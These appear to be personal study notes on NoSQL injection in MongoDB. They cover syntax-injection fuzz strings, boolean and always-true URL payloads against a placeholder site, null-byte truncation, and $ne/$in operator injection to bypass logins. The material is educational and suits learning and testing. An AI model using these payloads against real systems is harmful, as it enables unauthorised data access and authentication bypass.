 -  NoSQL syntax injection - break nosql syntax and execute query 
-  Operator injection - abuse nosql operatoors like $where
  


## NoSQL syntax injection

- like sql injection in queries `break the query syntax` and exploit

#### Detecting syntax injection in MongoDB


- test each input by submitting fuzz strings and special characters

#### FUZZ STRINGS

```
'"`{ ;$Foo} $Foo \xYZ '%00
```

```
' " \ ; { } ( )
```


#### TESTING

https://insecure-website.com/product/lookup?category=fizzy

in sever the query is handled as 

``this.category == 'fizzy'``

- we handle fizzy as input 

- now fuzz the input with the *FUZZ STRINGS*

- check the response and analyse

- determine which character is processed like single quote or double quote

``this.category == '''``

`this.category == '\''`

- now we check for boolean influence (eg to bypass or data retrieval)


- for false output expectation
`https://insecure-website.com/product/lookup?category=fizzy'+&&+0+&&+'x`
- here no categories are displayed since query is false ,

- for true 
`https://insecure-website.com/product/lookup?category=fizzy'+&&+1+&&+'x`
- suggests that the false condition impacts the query logic
- here the category fizzy displayed so ==boolean influence==


#### Overriding existing conditions

- use or `||` operator like output always returns true

`https://insecure-website.com/product/lookup?category=fizzy'||'1'=='1`

- here the server query seems ,

`this.category == 'fizzy'||'1'=='1'`

- thus existing condition overrides and displays all categories


- ==MongoDB may ignore all characters after a null character==

- if server query is 

``this.category == 'fizzy' && this.released == 1``

after null character injection in fizzy as input


`this.category == 'fizzy'\u0000' && this.released == 1`

this would display unreleased object



## operator injection


- operator provide ways to specify conditions to fetch data from db 

- $where, $ne , $in , $regex https://chatgpt.com/share/67641e0a-8aec-800a-8b66-c2ec7950455c


### Injecting into query operators

1) if the server query is
`{"username":"wiener"}
- this queries with the user name = wiener , if data returned from server it returns in response

here we can control wiener input

`{"username":{"$ne":"invalid"}}` ==> `username != invalid `which is true
- this queries the username != invalid which queries every username except invalue


2) `username=wiener` becomes `username[$ne]=invalid`


3) `{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}`
- this queries data if  username `["admin","administrator","superadmin"]` in db

doesn't work

1. Convert the request method from `GET` to `POST`.
2. Change the `Content-Type` header to `application/json`.
3. Add JSON to the message body.
4. Inject query operators in the JSON.



		













